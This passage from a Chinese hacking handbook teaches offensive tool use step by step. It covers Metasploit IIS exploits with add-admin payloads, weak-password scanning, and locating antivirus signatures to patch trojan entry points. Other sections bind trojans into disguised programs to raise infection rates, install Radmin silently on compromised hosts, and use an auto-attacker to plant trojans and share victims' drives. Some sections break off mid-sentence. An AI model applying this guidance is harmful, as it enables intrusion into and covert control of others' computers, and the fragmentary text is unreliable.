大家可以看到在界面上有六个选择钮，这里依次给大家介绍一下它们代表的功能。首先是第一项“Exploits”，溢出功能。点击进入溢出对象选择界面，在上面的搜索框输入要寻找的溢出类型，比如我想针对 IIS 的溢出，就输入 IIS，即可找到相关内容，如图52所示。

关于 IIS 的溢出还不少，我们选择一项进入，比如 **Microsoft IIS 4.0 .HTR Path Overflow**。接下来是选择你的目标版本，我们选择 SP5，如图53所示。

这里到了一个比较关键的地方，是让你选择需要如何去利用这个漏洞，英文不太好的朋友需要费点劲了。左边是利用的文件名，右边是对其实现功能的描述，如图54所示。这里我们选择第四项，这段英文描述的大意是监听连接，并且建立一个用户将其添加到管理员组。


图52


图53

| NAME | DESCRIPTION |
|---|---|
| shell_bind_tcp | Listen for a connection and spawn a command shell |
| shell_reverse_tcp | Connect back to attacker and spawn a command shell |
| adduser | Create a new user and add them to local administration group |
| adduser/bind_tcp | Listen for a connection, create a new user and add them to local administration group |
| adduser/find_tag | Use an established connection, create a new user and add them to local administration group |
| adduser/reverse_http | Tunnel communication over HTTP, create a new user and add them to local administration group |
| adduser/reverse_ord_tcp | Connect back to the attacker, create a new user and add them to local administration group |
| adduser/reverse_tcp | Connect back to the attacker, create a new user and add them to local administration group |
| dllinject/bind_tcp | Listen for a connection, inject a custom DLL into the exploited process |

图54

进入下一步，是填入溢出的参数。**RHOST** 表示要攻击的主机 IP 地址；**RPORT** 表示攻击的端口，大部分 IIS 都是运行于 80 端口的；**LPORT** 是本地打开的端口；**PASS** 是为我们通过溢出建立的账号指派密码；**USER** 则是建立的账号名。注意标记 `Required` 的选项是必填的，其它项可任意选填，如图55所示。

一切填写后，点击下面的按钮提交溢出代码，很快工具返回溢出的结果，如图56所示。

图57中的提示是 **Exploit failed**，即溢出失败。如果是溢出成功的提示，我们就可以试试用刚才的账号和密码登录那台 IIS4.0 的主机了。


图55

```text
=[ 30 aux

[-] Exploit failed: No encoders encoded the buffer successfully
```

图56

第二项“Auxiliary”的意思相当于一些常见的功能性检测，例如连接某些端口、空口令连接、IPC 等。和前一项溢出功能一样，仍然是搜索条结合项目列表的形式。我们对 SQL 相关的功能感兴趣，输入“SQL”进行搜索，结果如图57所示。


图57

我们从 **MSSQL LOGIN Utility** 选项下面的功能描述可以知道，这个组件是去尝试连接一台空口令的 MSSQL 服务器。进入该项后要求输入连接的 IP 地址和端口，如图58所示。


图58

由于这里我们是在做演示，自然连接失败了，提示 **does not have a null sa account**，即不存在 SA 空口令，如图59所示。


图59

第三项“payloads”，相当于本机设置，就是对工具本身的附加功能进行设置。我们搜索“VNC”，结果如图60所示。


图60

我们选择第一项，对 VNC 作为注入进溢出对象的程序时的 TCP 进行设置，如图61所示。VNCHOST 是 VNC 的本机地址设置；VNCPORT 是本机 VNC 的端口设置；LPORT 是本地打开的端口设置。


图61

按以上的设置，当这个 VNC 被溢出注入到肉鸡上时，我们连接 4444 端口就相当于连接肉鸡的 VNC 开放的 5900，功能如同端口转发。

第四项“console”，是该工具的命令行界面，如图62所示。也就是说，刚才所有的图形化操作都可以通过命令行来完成。运行后首先看到的是 Metasploit 欢迎界面，输入 ? 能看到帮助信息。总之，里面有很多的命令，下面我将最重要的几个做简单解释。


图62

- ?：得到帮助
- cd：更换当前的工作目录
- exit：退出
- help：得到帮助
- info：显示当前程序的信息
- quit：退出程序
- reload：载入 Exploit 和 payloads
- save：保存当前设置
- setg：设置一个环境变量
- show：显示可用的 Exploit 和 payloads
- use：使用一个 Exploit
- version：显示程序的版本

一般最常用的命令是“show”“info”和“use”。由于程序集成了众多的 Exploit，所以我们要先了解一下程序中到底有哪些溢出工具包。

输入“show”看看有哪些可用的 Exploit 程序。左面显示的是溢出程序的程序名称，右面是相应的简介，如图63所示。该程序支持大量的溢出程序包，并可以随时下载加载新的溢出程序包。


图63

info 命令用来查看溢出程序的使用方法。比如要看 iis50_webday_ntdll 的相关说明，就在命令行下输入 info Exploit iis50_webday_ntdll 即可。这样可以从返回的结果中知道这个溢出程序是针对什么系统的，而 Available Options 中的内容是我们下一步所要用到的。

在命令行下输入“show payloads”后可以看到可用的 ShellCode 列表，左面是 ShellCode 的名字，右面是相应的简介。我们再用 info 命令来看一下 ShellCode 的具体信息，比如对 Winexec 的 ShellCode 比较感兴趣，在命令行下输入：**info payload winexec**，在返回的结果中需要注意的是开头的信息和 Available Options 中的内容。

**在 Available Options 中，可以看到有 Required 和 Optional 的字样，Required 代表必选，Optional 代表可选。**

使用“**use 溢出程序名**”即可进入溢出程序所在目录，如图64所示。


图64

输入 **show options**，能查看溢出工具包要求指定输入的内容，如图65所示。


图65

使用“**set 参数名 参数值**”的命令可以给溢出工具包要求的参数赋上值，如图66所示。


图66

在图66中，有一个设置名 interface，可选设置 Current Setting 里只有一项 eth0，required 下是 yes，说明是必选，最后的 Description 是说明。一切设置完毕后输入 **exploit** 开始进行溢出，如果成功即可得到 SHELL。可见这个溢出工具的使用还是非常简便易懂的，主要的障碍来自英文，英文好的朋友用起来一定是得心应手。

## 8 如何安装虚拟机软件？

在很多时候，我们需要有两台计算机来调试网络或测试木马，一般人不太可能为了测试就再添置一台。这样就产生了一种技术手段，在本机上模拟出一台或多台计算机，使一台计算机上同时运行两套系统，这些虚拟出来的计算机就被称为虚拟机。

现在已经有现成的虚拟机软件可以让我们进行安装使用，这里以微软出品的 Virtual PC 虚拟机软件为例进行介绍。执行软件安装程序，一路点击“下一步”即可，如图67所示。


图67

当来到如图68所示的地方时，需要输入注册名，大家可以很方便地通过网络得到。下面的单选项是选择以什么身份安装程序，我们选择“All Users”。


图68

下一步是选择安装目录，点击“change”可以进行修改，如图69所示。


图69

安装完成之后，为了让 Virtual PC 成为方便我们使用的中文版，还能下载和安装中文支持包，只需直接解压到 Virtual PC 的安装目录即可，如图70所示。

# 第六章 黑客工具实战技巧


解压完毕之后运行 Virtual PC 虚拟机软件，先选择“Options”进行配置，如图71、图72所示。


在“language”（语言）选项中选择中文“Simplified Chinese”，如图73所示。


“确定”以后退出配置菜单，重新运行 Virtual PC，现在界面就变成中文了。选择“新建虚拟主机”进入向导菜单，一般选择第一项，如图74所示。

点击“下一步”后给新建的虚拟主机取一个便于记忆的名字，再点“下一步”后选择操作系统，如 WINDOWS 或 LINUX 等，你需要新建的虚拟主机是什么系统就选择哪个，如图75所示。

接下来是选择虚拟内存大小，一般选择“使用推荐内存大小”。然后是设置虚拟硬盘，选择“新建虚拟硬盘”，是设置一个文件来模拟虚拟主机的硬盘，可以根据自己及本机的配置来设定文件名和分配容量大小，如图76所示。


图74


图75


图76

点击“完成”，一个新的虚拟机就建立好了，如图77所示。不过这个虚拟主机还是一台没有安装任何操作系统的“裸机”，接下来我们在上面安装操作系统。


图77

把 Windows 安装盘放入光驱后启动虚拟机，虚拟机将从光盘开始引导系统安装，安装过程与实际安装系统并无区别，如图78、图79所示。

Virtual PC 在安装完系统后，有一点很重要，就是通过配置让虚拟机也能上网。很多初学者在这里就不知道怎么办了，请继续往下看……

现在按键盘右边的“Alt”键切换到本机操作界面，在虚拟机软件中依次选择“编辑”→“设置”，在“网络连接”项右边的“适配器1”下拉菜单中选择“共享连接（NAT）”，然后“确定”，如图80所示。


> 资深黑客渗透内幕答疑


经过以上配置，现在应该可以通过虚拟机上网了。

## 9 在修改木马防杀操作中如何定位特征码？

先介绍相对简单点的定位特征码方法，即利用 CCL 工具定位。其原理是自动生成 N 个病毒文件副本，每个副本根据需求把一定量的连续字符用其他字符代替，所以特征码可能被替换掉。然后使用杀毒软件查杀，能通过的话，表示该样本被修改处含有特征码，这样就能顺利地定位出特征码所在的位置。这种方法叫正向替换法。

给大家看一个图解过程，下面的一、二、三、四、五分别代表某工具的程序代码的五个副本。AA 表示工具中被杀毒软件定位的特征码，0000 表示被替换填充的部分。

```
一 ——0000——————————————AA————————
二 —————————0000————————AA——————
三 ———————————————0000——AA——————
四 ———————————————————————0000———
五 ———————————————————AA——0000———
```

生成的这五份副本被杀毒软件查杀后能留下的只剩四号这一份了，因为它的特征码处被 0000 填充掉了，所以躲过了查杀。于是我们根据被填充的位置，得到了工具中特征码包含的位置。

还有一种情况：存在两段或多段特征码，即复合特征码。由于各段特征码之间的距离比较远，在病毒样本中进行字符替换时只能替换掉一处或几处，没有全部被替换掉，导致样本仍然被查杀，从而无法定位出特征码。遇到这种情况可以采用留下部分代码，把大部分的代码用 0000 替换掉的方法，这样杀毒软件能杀掉的样本就是有病毒特征码的样本，这种方法叫反向替换法。来看看具体操作步骤：例如有一段程序，A、B、C 处全是定位的特征码，并且当代码中同时含有 ABC 时，该程序将被查杀。

```
A---B----------------C---C---A---B----------A---B---A---C
```

这种情况下我们用 0000 替换是无法定位出特征码的，如下所示：

```
一 0000----------------C---C---A---B------A---B---A---C
二 A---B---0000--------C---C---A---B------A---B---A---C
三 A---B---------0000------A---B----------A---B---A---C
四 A---B--------------C---C---A---0000----A---B---A---C
五 A---B--------------C---C---A---B--------0000---A---C
```

可以看到无论怎么用 0000 填充，在一、二、三、四、五代码中都有同时的 ABC 存在，它们将全部被查杀，使之无法定位出特征码，如下所示：

```
一 00000000000000000000000000000000---B------A---B---A---C
二 0000000000000000000000000000000000000000---A---C
三 以下略
```

根据杀毒软件对复合特征码的查杀规则，编号为一的代码将被查杀，而二号则免杀，这说明二号比一号多填充的那一块 0000 中包含有特征码。于是缩小范围，少替换几个 0000，这样就能最后定位出特征码所在的位置。

例如将填充 0000 的起始位置向后偏移一点，又定位出了前面 AB 处特征码的大概位置，如下所示：

```
一 A---B------000000000000000000000000000000000000---A---C
二 A---B------------000000000000000000000000000000--------
三 以下略
```

理论分析上大家可能看着比较枯燥，下面我们用特征码定位工具来配合。

- 1. 打开工具，依次选择“设置”-“手动参数”，然后选择二种中的其中一种替换方式，一般都选择按大小替换。一百 K 以下的木马免杀分析特征码时，选择“替换大小”为 32 字节，如图81所示。


替换参数越大，生成的文件越少，所占空间越小，但是精确度越差；反之，替换参数越小，生成的文件越多，所占空间越大，但是精确度越高。请根据要检测的程序大小和自己电脑的性能进行合理选择。

通常来说，如果对超过一百 K 的程序进行定位，要把“替换参数”选择大一点，如 64、128 等。这里我们选择的是按规定字节替换，“生成个数”不要改动，那个参数只在选择“总共生成规定的个数的文件”时才会有用。

- 2. 接着在 **“设置”－“总体参数”** 中选择 **“文件特征码手动定位”**，在“路径设置”中设置一个存放生成样本文件的路径位置，如图82所示。


图82

- 3. 接着选择 **“文件”－“打开文件”－“文件特征码检测”**，选择要定位特征码的木马程序，如图83所示。


图83

因为我们这里是进行文件特征码检测，在弹出的“PE文件段选择”中不用设置，直接点“确定”，如图84所示。


图84

进入下一步，能看到大约生成的文件个数及所占的空间大小等信息，如图85所示。这里注意，如果生成的文件太大，比如高达数百 M，应该在选择“替换大小”时把参数改大一些，否则文件夹太大，可能造成无法响应。


确认无误后点“运行”就开始生成了，我们可以看到在指定的保存目录下有许多的文件，如图86所示。


- 4. 用要做免杀的杀毒软件对生成的文件进行查杀删除，例如要对瑞星做免杀，就用瑞星来查杀生成文件。经过查杀之后，生成目录中仅剩下几个文件了，如图87所示。


- 5. 最后选择“操作”－“结果定位”，选择刚才生成文件的文件夹，然后点击“保存”按钮保存特征码的定位结果，如图88所示。


现在特征码被成功定位了，一般靠前的位置是特征码的可能性大一些。

# 第六章 黑客工具实战技巧

## 10 怎么把木马和美化程序捆绑？

将木马与正常 exe 程序捆绑，只要传播时的思维策略巧妙，自然会有人中招。利用相关工具可以很轻易地实现文件之间的捆绑，下面以功能比较多的捆绑机“超级捆绑”为例，讲解一下操作过程，如图89所示。


图89

点击左侧的（□）图标添加要捆绑的文件，如果选择错了，选中程序再点击（X）进行删除，最后点击下面的（📁）选择生成文件后保存的地址，如图90所示。


图90

接下来我们要对这个程序进行伪装，达到以假乱真的目的。点击下方的（扳手）按钮，进入设置选单，先看“常规”选项，这里可以自由设置文件大小，这样就不怕文件捆绑后的体积变大，如图91所示。


图91

再看“版本”设置项，这一项的功能也非常独特，能修改文件的版本信息。很多木马在修改捆绑后，版本信息会变，可以通过这里进行改变，使程序更具有迷惑性，如图92所示。


图92

在“运行”设置项可以设置捆绑后分解的目录和启动方式，如图93所示。如果捆绑的工具中有一个是会弹出 cmd 窗口的，可以在“窗口状态”中选“隐藏窗口”，以免弹出窗口被暴露。


图93


图94

> 资深黑客渗透内幕答疑

都设置完成后点击“合并”，文件就生成了。但是这个文件的图标我们不是很满意，如图94所示。为了让捆绑后的文件更具有欺骗性，需要把图标改变一下。

这款工具本身自带修改图标功能，点击下面的（▾）按钮，界面向下扩展出新的设置界面，如图95所示。

点击“图标文件”输入框右边的（…）按钮，选择一个程序，该程序的图标文件就出现在左边的窗口中。点击这个图标就设置成了我们生成的捆绑文件的图标，然后再点击一次“合并”即可，如图96所示。

现在生成的捆绑文件的图标就变成了刚才我们指定的那个图标，如图97所示。再把这个经过各种伪装的程序发给别人，很容易提高中马的效率。

> 资深黑客渗透内幕答疑

图96

图96

图97

## 11 如何进行跳转修改法防杀？

免杀技术是一项操作比较难、要克服的限制比较多、需要一定经验才能掌握的技术，但这并不妨碍我们由浅入深地学习这门技术。本节介绍给大家一种简单的免杀方法，不一定适用于所有程序的免杀，但是从中可以接触到用跳转法防止查杀。

介绍之前先说明一下，对一个程序的免杀有“文件免杀”和“内存免杀”两种。“文件免杀”的意思是这个程序在没有运行时，用杀毒软件查杀是不会有反应的；“内存免杀”的意思是当程序被运行、进驻内存中时，杀毒软件不会对其查杀。

本节介绍的这种跳转修改法只对文件进行“文件免杀”，我们要用到的工具包括：

图98

PE 文件修改工具 peditor.exe，如图98所示，是一个查看程序参数并进行修改的工具，比如查看入口点、基址等。

PE 调试修改工具 OllyDbg，如图99所示，可以说是无人不知、无人不晓的汇编工具，我们几乎所有的免杀修改都要通过它。

- 第一步：
- 运行 OllyDbg，从“文件”->“打开”加载你要修改的程序，加载后主窗口的光标会停留在第一行，如图100所示。

这一行会看到有黄色光条，通常这就是修改时要用到的一个重要参数——入口点。记录下此时的入口点地址，地址是程序的第一竖列，此处是 004618C4。将这个地址记录下，以后有用。

- 第二步：
- 接着我们关注第二竖列，往下拖动滚动条寻找一个没有被程序代码利用的空区域，空区域的特点是显示为 0000，如图101所示。**请注意：要是四个0的才是无代码空区域，两个0的区域实际上还是有代码的。**

找到一片空区域后可以用来添加我们的代码。先选中一行空区域，然后就可以开始添加代码，但千万要记住它的地址。假设你是在 402414 这一行开始添加代码的，记下这个地址，这将是新的入口点。

### 第三步：

在刚才选中的空区域的第一行开始逐行添加如下代码：

```asm
push ebp
mov ebp,esp
inc ecx
push edx
nop
pop edx
dec ecx
pop ebp
inc ecx
loop somewhere
```

添加的方法是在该行点鼠标右键，选择“汇编”，在弹出的窗口中输入这一行的代码即可，如图102所示。

图102

注意 loop somewhere 这一行中的 somewhere 是个地址，就写在第一行 PUSH EBP 上面不远的地址。这里是 LOOP 到了如图103所示的第一行地址 4023F6。

图103

然后把光标移动到 4023F6 这一行继续输入代码，如图104所示。

```asm
nop
jmp 往下空一两行的地址，如 4023FA
```

图104

jmp 再往下跳的地址，如 4023FC，如图105所示。

图105

jmp 跳到原始 OEP（开始修改前我们记过该程序的入口点 004618C4，这里完整输入 jmp 004618C4 即可）。

### 第四步：

选中第三步中输入的那些代码（选中的操作就是按住鼠标左键不动，把要选的内容框在一起再松开），点鼠标右键依次选择“复制”->“到文件”，再选择一个保存地址，如图106所示。

图106

### 第五步：

用 peditor.exe 打开修改过的程序，此时看到入口点处显示的还是原来的 00401AC4，下面基址是 00400000，如图107所示。

图107

这是因为 peditor 的地址表示方法是用基址加内存地址，也就是 00001AC4=00400000+00401AC4，所以这里的地址我们只需改为 00002414 即可，如图108所示。

图108

00002414 加上基址 00400000 正好是上面第二步让大家记录的新入口点地址 0046300A。修改好后点“刷新”就改变了程序的入口地址，至此跳转修改完成。测试运行正常，杀毒软件扫描不报警，说明修改成功。

## 12 如何使用 X-Scan 扫描器

在介绍使用方法之前，先说说 X-Scan 扫描器与别的扫描器有什么不同。一般所说的扫描工具，如 SUPERSCAN、S 扫描器等都是端口扫描工具，它们提供的信息较为单一，只能提供端口是否开放或有没有被防火墙屏蔽等信息，进而得出对应端口的服务是否启用的结论。这样的扫描结果对于我们综合判断网站的情况是不够的，如果想检测一些常见的漏洞则无法做到。我们通常把只能进行端口扫描的工具称为端口扫描器，把能检测计算机漏洞的扫描工具称为漏洞扫描器。**X-Scan 这款工具除了进行端口扫描之外，还能检测相关漏洞，如各种弱口令、IIS 漏洞、溢出漏洞等**，如图109所示，为软件主界面。

图109

前面我们已经学习过进行 IPC 入侵的方法，网上也有很多 IPC 的扫描器，其实 X-Scan 早就具有这个功能。运行 X-Scan，在“设置”->“扫描参数”->“全局设置”->“扫描模块”中只选取“NT-Server 弱口令”，如图110所示。

然后在“检测范围”中设好 IP 段，X-Scan 的 IP 段是用 192.168.1.1—192.168.1.255 来指定的，如图111所示。扫描完成后，X-Scan 会以一个表单列出扫描到的主机。

图110

图111

在选取“NT_SERVER”扫描所在的列表中，还有“NETBIOS 信息”“SNMP 信息”“TELNET 弱口令”“FTP 弱口令”“VNC 弱口令”“POP3 弱口令”“SMTP 弱口令”“IIS 编码漏洞”等专项检测，如图112所示。

图112

先选取相应的项目，然后提交扫描，就能得到相关的检测结果（在对单台主机作全面探测时我们通常是会全选的）。列表的最下面有一个“漏洞检测脚本”，这个选项很关键，作用在后面会讲到。

以上就是整个“扫描模块”项的设置，“并发扫描”和“扫描报告”里的设置一般不必改，默认设置即可。“其它设置”最好选择“无条件扫描”，如图113所示。

图113

这就等于是强制扫描，虽然时间会慢很多，但是不会因为大量目标主机被忽略而造成扫描结果的缺失。“跳过没有检测到开放端口的主机”和“显示详细进度”最好选中，“使用 Nmap 判断远程操作系统”不要选，因为现在大部分机器都装有防火墙，这个成功率太低了，选中后还浪费时间。如果发现 Nmap 服务是开放的，再选中该项进行详细探测也不迟。

下面进入第二大项“插件设置”，这一大项里面包含的可看作是对“全局设置”中的进一步选择。“端口相关设置”中指定要扫描的端口，端口之间用逗号隔开，下面的检测方式要设为 TCP。因为 SYN 半连接扫描会被很多服务器防火墙认为是攻击而忽略，导致无法得到准确的扫描结果，如图114所示。

“SNMP 相关设置”是指定如果对方存在 SNMP 漏洞需要获取哪些信息，一般全选上，如图115所示。“NETBIOS 相关设置”是指定如果对方存在 NETBIOS 漏洞时需要获取哪些信息，建议不选，成功率太低了还浪费时间，如果发现机器开着 SNMP 服务再详细探测。

“漏洞检测脚本设置”和我们在前面提到的“漏洞检测脚本”有关。如果在前面你选择了“漏洞检测脚本”，这里就可以指定进行哪些漏洞检测，这是 X-Scan 与别的工具最大的不同。它内置了多种漏洞的检测脚本，并且这些脚本是可以更新的，并通过在这里进行加载。

点击“选择脚本”，弹出如图116所示的对话框。左侧是检测脚本的类型，这里的解释全是英文的。

简单介绍一下，FTP 表示 FTP 漏洞、FIREWALL 表示防火墙漏洞、CISCO 表示针对思科路由器的探测。选中脚本分类后会显示该类脚本下所有的漏洞脚本，一般在左边确定要检测的大类后右边的小项目都全部选中。例如我选择的关于 CISCO 的全部检测项目，然后点“选中依赖脚本”，再点“确定”。

> 因为某个脚本的运行不是独立的，需要其它脚本对它的支持才能正常发挥作用。点击它就自动选择了相关的脚本，这些脚本列表就会被加入到 custom.nsl 文件中。这是一个待检测脚本的列表，里面列出了刚才选中的所有要检测的项，它就好像是一个“菜单”，选中我们所点的“菜”，待会提交检测。

“CGI 相关设置”是 CGI 漏洞扫描时需要的几种转变符号的检测，可以分别试试看有无结果。

“字典文件设置”里标明了所有检测所使用的字典，比如 FTP 用户字典、SMB 字典，并支持自定义。双击右边的字典进行加载，如图117所示。

图117

全部设置好后点击主界面菜单上的绿三角按钮，如图118所示，工具就开始扫描了。因为 X-Scan 是一款端口/漏洞扫描器，所以速度比较慢，并且时常会有电脑假死卡机等现象，请耐心等待……扫描完成后列出结果，并在 LOG 目录中保存扫描结果，如图119所示。

图118

| 类型 | 端口/服务 | 安全漏洞及解决方案 |
|---|---|---|
| 提示 | microsoft-ds (445/tcp) | 开放服务；“microsoft-ds”服务可能运行于该端口。NESSUS_ID:10330 |
| 提示 | unknown (1027/tcp) | 开放服务；未知服务运行于该端口。NESSUS_ID:10330 |

图119

## 13 怎么让没有代理功能的软件也能使用代理？

许多朋友喜欢用代理进行网络访问，很多程序也很贴心地在功能中整合了代理功能，比如 QQ、IE 等，要使用代理只需在设置项进行代理相关的设置（输入代理 IP 及端口）就可以使用了，十分方便，如图120所示。

图120

但是更多的程序没有设置代理这个功能，特别是一些黑客工具。比如想用 SQL 工具对一个国外站点进行检测，但是网站设置了不允许国外 IP 访问，此时就需要用到代理。在程序本身没有代理功能的情况下，我们可以用第三方代理工具来配合使用。

相关的工具有很多，大家可以在网上搜索自己认为好用的，这里使用的是 SockCap，该软件支持 SOCKS 代理。在使用之前我们要先准备一个代理 IP，可以用 SockCap 让程序在代理状态下运行。

运行 SockCap，点击“文件”->“设置”，在“SOCKS 设置”里填入找到的代理 IP 和端口。

**这里注意一点，你找的代理必须是 SOCKS5 代理，因为 SOCKS4 代理不支持 HTTP 协议的数据包。**相应的，在设置处也要选中“SOCKS 版本 5”和“由本地解析所有域名”，如图121所示。

图121

如果你所用的代理是需要账号登录的，选中“支持的验证方式”框里的“用户名/密码”，这样在登录之前会先弹出个窗口，要求输入账号和密码，如图122所示。

设置项中的“直接连接”可以指定那些 IP 不使用代理。例如我们在使用 SQL 扫描工具对架设在本地的测试整站进行检测时当然就不需要使用代理，只需将本地 IP 添加进“直接连接的地址”框中就可以了，如图123所示。

“日志”标签项是选择是否启用日志，一般都启用。如果在使用中出现问题，可以通过日志记录的程序运行状况分析问题所在。设置完成后，点击“确定”即可。

接下来是要指定哪些程序需要使用代理来运行，选择“文件”->“新建”，或直接单击程序上的新建图标，在弹出的选择框中选择 EXE 程序，如图124所示。注意这里不要选择成桌面图标。

被添加进来的 EXE 程序就能使用代理上网了，如图125所示。我是将 d:\hacksofe\SQLzhuru\NBSI22 下的 NBSI 注入工具添加到了 SockCap 中，添加的程序会在主界面下面的框中建立图标。

以后只要先运行 SockCap 程序，然后在主界面下面的框中双击相应的程序，这时打开程序就使用代理访问网络了。

## 14 如何用软件搜索扫描代理？

在本书的很多章节中我们学习了怎么使用代理，但是有一个关键的问题：代理从何处找？当然我们可以通过“代理中国”等网站找到公布的大量 IP，如图126所示。可问题是，大量的 IP 地址并非都是能用的，能使用的只占公布的极少部分，免费的午餐是不太好找的。

如果一个个手工印证，实在是太慢了，我们需要用一种工具来进行一体化的操作，才能大大提高效率。这里将一款搜索代理的工具“代理超人”介绍给大家。

运行“代理超人”后，直接选择“搜索”->“搜索代理”，软件就开始自动去捕捉代理了。稍等一会之后，整个列表中就列出了大量的代理 IP 地址，如图127、图128所示。

图126

图127

图128

虽然抓取的代理这么多，但大多是不能用的，我们可以使用工具来验证。选择“搜索”->“验证全部代理”，也可以用快捷键 Ctrl+C 来启动验证，如图129所示。

图129

经过验证，结果就出来了。第一竖列是代理 IP，第二竖列是开放的代理端口，这两个是使用代理必须的参数。第三竖列是代理的类型，“超级匿名”是指用这个代理去上网，你所访问的地方根本不会发现你真正的 IP，还以为你是从代理 IP 的地址去访问他的；“普通匿名”是指他知道你是在使用代理，但还是无法知道你真正的 IP；“透明代理”是指虽然所有的数据也是通过代理来传送的，但很容易让对方知道你在用代理，并且追踪到你真正的 IP；“无效代理”自然就是无法使用的，如图130所示。

图130

第四竖列是代理所在的真实地址，第五竖列是连接时间，第六竖列是代理类型，如 HTTP 或 SOCKS 代理，这几项要根据需求择优使用。现在的结果还是太杂乱了，不方便我们选择对比。该工具很贴心地设计有整理功能，选择“搜索”->“整理代理”，也可以用 Ctrl+N 快捷键整理。现在再看列表，剩下的都是能用的代理了，大家可以进行对比选择，如图131所示。

图131

最后我们来看看该软件的设置，最主要的是在“高级”->“系统设置”中的“自定义代理页页面列表”，如图132所示。如果我们发现了新的公布代理的网站地址，填入这里，可以增加工具搜索时的结果。

图132

并不会把它当成木马查杀掉。由于它本身就是一款用来监控桌面的工具，所以它的桌面监视功能比一般的远程木马要流畅。Radmin 和木马一样，在使用前先要生成服务端，在工具里附带有服务端生成器，如图133所示，双击即可运行程序。

这里提醒大家注意，不同的 Radmin 版本，服务端生成器的界面不同，这款软件运行后的界面如图134所示。

要修改的设置就是四项：“设置密码”是指连接时的密码，最好改强一点，不要有弱口令，防止被猜测到，现在已经有暴力破解工具了；再看“设置参数”中的选项，Radmin 端口号默认是 4899，可以修改成别的端口，如图135所示；穿透防火墙设置可以根据目标安装的防火墙进行选择。

以上是该工具在图形界面的设置，下面我们主要讲讲命令行下 Radmin 的安装。安装 Radmin 要把 r_server.exe 和相关的 admdll.dll 文件上传到肉鸡上，如图136所示，然后执行 `r_server.exe /port:3333 /pass:123456` 运行程序。

Port 后的 3333 是端口，pass 后的 123456 是密码。另外在安装时，有一个参数是在执行……每一步时必须要加的，那就是`/silence`。它的作用是不跳出“error”或“ok”等信息，防止被发现。

需要将 Radmin 安装为服务，使用的命令是`r_server.exe /installservice`，执行`r_server.exe /uninstallservice`则是卸载服务。这样，我们最后输入`r_server.exe /port:3333 /pass:123456 /silence /install`，就可以将 Radmin 在命令行下进行安装。

现在 Radmin 已经安装成功了，我们可以用客户端进行连接，选择“连接选项”－“新建连接”，如图137所示。


新建连接的设定很简单，填入目标 IP 和端口，再给这个新连接取个名字就可以了，如图138所示。


建立成功后会在工具中看到新建连接的图标，请注意先不要急着双击它进入控制，而是在上面按鼠标右键，看看有哪些可选的控制模式，如图139所示。

这里给大家介绍一下几种主要控制功能的意义。“完全控制”的意思是当出现被控制的肉鸡界面之后，我们在上面移动鼠标，对方的鼠标也会被我们控制，这和 QQ 远程协助时的操作一样，能让我们直接操作远程计算机；“屏幕监视”就是只能看不能操作了；“远程 TELNET”是用 TELNET 命令行的方式连接肉鸡；“文件管理”能像共享文件夹那样方便地上传下载文件，如图140所示。


这里我们尝试用“屏幕监视”来登录吧，点击后出现了密码输入框，输入密码并“确定”后就会进入对方桌面，如图141所示。


图141

以上是我们在本地的客户端上通过图文模式连接到服务端，下面再看看客户端命令行下如何操作。连接服务端需使用客户端`radmin.exe`，标准的连接命令是 **radmin.exe /connect:192.168.1.2:3333 /telnet**，如图142所示，为执行后弹出的命令行操作界面。


图142

Connect 后的 IP 就是连接 IP；4000 表示连接的端口；TELNET 表示用 TELNET 的方式来连接。另外，使用 **/fullscreen** 可以指定以全屏方式运行。

还有一个重要的参数是 **/through:xxxxx:nnnn**，这个表示通过其它 Radmin 服务转接，可以理解为代理连接模式。但是注意，这里的代理服务器只能是另一台安装过 Radmin 的主机。例如执行命令：

```bash
radmin.exe /connect:10.0.0.100:4000 /telnet /through:10.0.0.101:4001
```

表示通过 IP 为 10.0.0.101 的代理服务器的 4001 端口连接到 10.0.0.100 的 4000 端口，这个功能使得 Radmin 具有了代理跳板的功能。

## 16 如何使用啊D自动攻击器？

啊D自动攻击器是很适合初学者使用的入门级黑客工具，整合了几种常见的漏洞抓鸡方式，不需要使用复杂的命令就可以实现从连接到上传文件并执行，是初学者实践理论、体会成功、培养学习兴趣的好工具。

我们先用它来查找肉鸡，利用“肉鸡查找”功能可以查找一个网段中密码过于简单的 Win2000、WinXP 等操作系统主机，并且可以自动识别系统版本。

点击工具中的“肉鸡查找”标签项，然后在“IP”栏输入要搜索的 IP 地址段，IP 地址最好选择你本地的 IP。假设本地 IP 是 218.76.40.155，就输入 218.76.40.1 到 218.76.40.255，然后点击“开始扫描”，如图143所示。如果该 IP 段内存在密码简单的肉鸡，稍等片刻就会看到在下面窗口中被列出。

对方的电脑上了，如图144所示，这样就可以像在本地一样任意操作，还可以进一步上传木马，得到对方的桌面控制权限。


图143


图144

点击“种植木马”按钮进入窗口，点击“本地文件”右侧的按钮调入我们事先做好的木马（如灰鸽子、PCSHARE 等等），然后点击“开始”按钮，稍等一会就会返回成功与否的信息，如图145所示。


图145

如果成功了，那么对方就成为你的肉鸡了！如果不成功，请对该电脑换另一个用户试试，或者对其它的电脑进行种植木马的操作。

如果不能上传木马，我们还可以把对方的目录共享到本地浏览文件。在“启动命令”栏选择或输入控制命令，例如输入：`net share abc=c:\`（将对方的 C 盘共享为“abc”）和`net start telnet`（启动对方机器的 Telnet 服务），然后点击“开始”按钮，成功后对方电脑已经有共享目录 abc。

由于我们已经将对方电脑的 C 盘共享为了 abc，因此进行共享查找时就会搜索到这个机器。其实这个工具的整个肉鸡查找功能，不过是图形化了的 IPC 操作，不用输入复杂的命令，对于刚接触网络安全技术的朋友来说，不会因输错命令而 IPC 出错，比较直观。

点击“共享查找”，然后在窗口中输入搜索 IP 的范围，点击“开始查找”按钮就开始搜索了，如图146所示，不一会儿你就会看到开启了共享目录电脑的 IP 地址。双击 IP 前的“+”将其共享的目录打开，然后点击一个目录，再点击右侧的“映射”按钮。运气好的话，映射就会成功了。例如将对方的 C 盘映射为我的 I 盘，点击右侧的“打开”按钮就可以看这个 I 盘了，这里其实是整合了 Windows 中“网上邻居”的查找功能。


图146

啊D网络工具不光能用来入侵，还有许多方便的小功能可以使我们做好个人的安全防护，比如想查看网络状态，使用“网络状态”功能就能知道自己机器打开了什么端口。点击工具栏上的“网络状态”按钮，在如图147所示的窗口中看到有详细的端口开放情况和与本机连接的 IP 地址、端口号。


图147

也许你对端口的作用还不太了解，可以点击右下角的“常用端口列表”按钮，这里对所有端口（从1到65000）的作用均有描述，如图148所示。


图148

